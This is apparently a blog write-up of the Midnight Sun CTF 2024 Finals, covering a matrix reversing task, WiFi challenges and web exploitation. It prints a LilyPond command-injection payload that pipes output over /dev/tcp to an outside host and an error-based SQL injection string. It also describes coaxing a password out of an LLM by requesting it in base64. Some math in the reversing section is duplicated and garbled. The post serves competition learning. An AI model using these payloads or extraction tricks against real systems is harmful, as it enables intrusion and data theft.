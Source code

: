 ```yaml
---
date: 2024-06-20T19:15:00.000+00:00
slug: midnight-sun-ctf-2024-finals
title: Midnight Sun CTF 2024 Finals

---
```


On June 15th and 16th, I participated in the Midnight Sun CTF 2024 Finals in Stockholm as a member of TokyoWesterns, and we won first place.


<blockquote className="twitter-tweet"><a href="https://twitter.com/TokyoWesterns/status/1802375866980487396" /></blockquote> <script async src="https://platform.twitter.com/widgets.js" />


# Writeups


## ☆concept43 (Reversing)


It was a program that repeatedly performed multiplication and exponentiation of a 40x40 matrix, checking if the results matched the expected outcome. The program was not obfuscated, and it could be easily analyzed using a decompiler.


```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int i; // [rsp+Ch] [rbp-1914h]
  uint32_t v5[1600]; // [rsp+10h] [rbp-1910h] BYREF
  unsigned __int64 v6; // [rsp+1918h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  fgets(s, 32, stdin);
  *strchrnul(s, 10) = 0;                        // remove '\n';
  for ( i = 0; i <= 30; ++i )
  {
    matrix_pow(M_M[i], s[i], v5);
    matrix_mul(v5, M_B, M_A);
    matrix_mul(M_L[i], M_A, M_B);
  }
  if ( !memcmp(M_B, M_target, 0x1900uLL) )
    puts("Yayz!");
  else
    puts("Nope.");
  return 0LL;
}
```


[file](/assets/post/midnight-sun-ctf-2024-finals/fe030af0-0a4c-4da6-bb8a-27155e02209f.i64)


The result of reversing can be rephrased as the following problem:


Given matrices $M_i, L_i, B (0\leq i\lt31)$ with elements in the ring of remainders modulo $2^{32}$, find the sequence of natural numbers $s_i (0\leq i \lt 31)$ that satisfies the following condition:


$$
L_{30}M_{30}^{s_{30}}L_{29}M_{29}^{s_{29}}\cdots L_{0}M_{0}^{s_{0}} = 0
$$


Since solving this problem directly seems impossible, we analyzed whether M and L have any special properties.


By taking the modulo 2 of M, we found that M can be expressed as the sum of a special matrix A, where all rows have the same form or are zero, and the identity matrix I.


![M mod 2](/assets/post/midnight-sun-ctf-2024-finals/049ec0a5-9aed-49cd-80b0-191e6d9d8e12.png)


Continuing with the experiments, we discovered that when Mi=Ai+IM_i = A_i + IMi=Ai+I, Ai2=0A_i^2 = 0Ai2=0 always holds true. Therefore, Misi=I+siAiM_i^{s_i} = I + s_iA_iMisi=I+siAi, and exponentiation can be expressed through multiplication.


Additionally, since L30L_{30}L30 is a matrix where all rows except the first are zero, it can be considered as a vector. Consequently, matrix multiplication is unnecessary, leading to faster computations.


At this stage, we determined that exploration was feasible. We decided to solve it by exhaustively searching for the solution modulo 2, then using the results to search for the solution modulo 4, and finally modulo 8. By utilizing the fact that the prefix is `midnight{`, it reduced the search space to 22 bits, which was manageable on a local PC.


We successfully achieved the 2nd blood.


Continuing with the experiments, we discovered that when $M_i = A_i + I $, $A_i^2 = 0$ always holds true.
Therefore, $M_i ^ {s_i} = I + s_iA_i$ and exponentiation can be expressed through multiplication.


Additionally, since $L_{30}$ is a matrix where all rows except the first are zero, it can be considered as a vector. Consequently, matrix multiplication is unnecessary, leading to faster computations.


At this stage, we determined that exploration was feasible. We decided to solve it by exhaustively searching for the solution modulo 2, then using the results to search for the solution modulo 4, and finally modulo 8. By utilizing the fact that the prefix is `midnight{`, it reduced the search space to 22 bits, which was manageable on a local PC.


We achieved the 2nd blood.


## You are my thoughts (Pwn)


When connecting to the website indicated in the problem statement, a website was displayed that converts music written in ABC notation into an image (PNG).


![screenshot of website](/assets/post/midnight-sun-ctf-2024-finals/c5b6dc33-c86c-4538-aec4-a7a5b02fde1d.png)


The source code was not disclosed, and the only information provided was that abc2ly (LilyPond) was being used, so I inferred the internal structure.


abc2ly is a tool that converts text in ABC notation to LilyPond format (ly format), but it does not have a direct function to convert to PNG format. I guessed that the conversion was done using the `lilypond --png` command. Since the ly format includes functions and is very complex, I considered the possibility of executing arbitrary commands. Upon investigation, I found that commands could be executed by writing something like `#(system "echo HELLO")`.


Next, I researched how to write this command from abc2ly and discovered that by writing `%%LY voices <arbitrary string>`, any string could be inserted into the voices without escaping.


By combining this knowledge, I successfully obtained the flag by passing `%%LY voices } #(system "bash -c '/flagdispenser > /dev/tcp/IP CENSORED/8080 2>&1'")` as input.


We achieved the 2nd blood.


## **GoodB10S** (Misc)


A WiFi 802.11 Access Point was set up, and a client was provided to connect to it. The communication was done over TCP instead of radio waves.


When I ran the client as it was, the authentication failed, and a Deauth frame containing the following message was returned:


"loats up behind you with a spooky cackle* Ah, you need my assistance, do you? rubs ghostly hands together Well, let's see what I can do to help... whispers You should send a scapy a PROBE-REQUEST with ELEMENT ID 0xDD and OUI 68EC8A. disappears into the ether with a haunting laugh"


Following the instructions and sending the Probe Request (using the successful one from my teammate chocorusk), I received the following message:


"If you want to know the password, let's play a game."


I was unsure of what to do next, but after some trial and error, I discovered that by sending text after the OUI in the Probe Request, it would be processed by an LLM, and I would receive a message in response. With the help of tyage and chocorusk, we requested the password in base64, and received a reply. The password turned out to be the flag.


The results were unstable, with responses like `midnight{wif1pr}` and `midnightctf{wif1pr0}`. The flag was `midnight{wif1pr0}`.


We achieved the 3rd blood.


## **GoodB10S** 2 (Misc)


In GoodB10S, the password `midnightsun{w1f1pr0}` occasionally provided by the LLM was the WiFi password. The correct SSID was `ghostnet`, which was broadcasting a Beacon.


After setting the correct SSID and password and running `ghostclient.py`, a tunnel Interface named `scapycli2` was created. Based on the hint from the organizers and the reference at [https://github.com/spr-networks/barely-ap/](https://github.com/spr-networks/barely-ap/), I inferred that the IP address of the other party was 10.10.0.1. I then set my IP address to 10.10.0.2 and attempted to ping, successfully communicating with 10.10.0.1.


Unsure of what to do next, I noticed while examining `fakenet.py` in the same repository that DHCP might be usable. I sent a DHCP request, and it turned out that the DHCP Ack contained the flag.


We achieved the 2nd blood.


## speed-web (Speed)


```php
  function sortItems($direction) {
    global $psqli;

    $direction = preg_replace("/;/i", "", $direction);
    $direction = preg_replace("/chr/i", "", $direction);
  
    $query = "SELECT * FROM items WHERE name NOT LIKE '%midnight{%' ORDER BY name $direction limit 10";
```


There was an obvious SQL injection vulnerability in the item sorting section. Since `;` could not be used, multi-statements were not an option.


Unable to find a way to include a string in the query result, I attempted to use blind SQL injection. Through trial and error, tyage suggested that an error-based approach might work. After a while, I discovered a method to display strings by casting them to integers.


I sent`limit (SELECT cast(name as int) FROM items WHERE name LIKE 'midnight%')--` as direction to retrieve the flag. We achieved 3rd place with 100 points.


# Notes


## Other Problems I Worked On


### **diaperpac (Pwn)**


My teammate ShiftCrops primarily solved this by brute-forcing the PAC (16-bit), but I helped with parallel execution and debugging the exploit.


It was frustrating to realize towards the end that the venue network imposed a limit on parallel execution, possibly due to exhausting the NAT table.


### **times16766 (Rev)**


Based on the reversing results by n4nu, I manually adjusted parameters to reveal flag-like strings. Eventually, tyage found the flag, and I am very grateful for that.


## Jailbroken iPhone


The problems babypac and diaperpac were on Corellium, a virtualized environment of iPhone. It was Jailbroken.


Since I don't usually use Apple products, it was my first time working with jailbroken iOS. I was surprised to find that it was well-organized, with an apt repository available for adding programs using apt-get.


## Contest Venue


Each team was given a room to participate in the contest from there. The space was very spacious, and we could solve problems comfortably without worrying about overhearing other teams.


